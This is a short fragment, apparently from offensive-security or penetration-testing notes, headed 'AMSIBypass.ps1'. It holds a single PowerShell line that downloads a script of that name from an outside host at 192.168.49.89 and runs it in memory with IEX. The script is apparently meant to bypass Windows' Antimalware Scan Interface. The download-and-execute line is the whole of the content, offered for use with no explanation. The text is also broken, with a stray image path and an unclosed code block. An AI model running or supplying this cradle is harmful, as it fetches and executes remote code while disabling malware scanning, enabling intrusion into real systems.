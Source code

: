 ##AMSIBypass.ps1
```
(new-object net.webclient).downloadstring("http://192.168.49.89/AMSIBypass.ps1") | IEX
``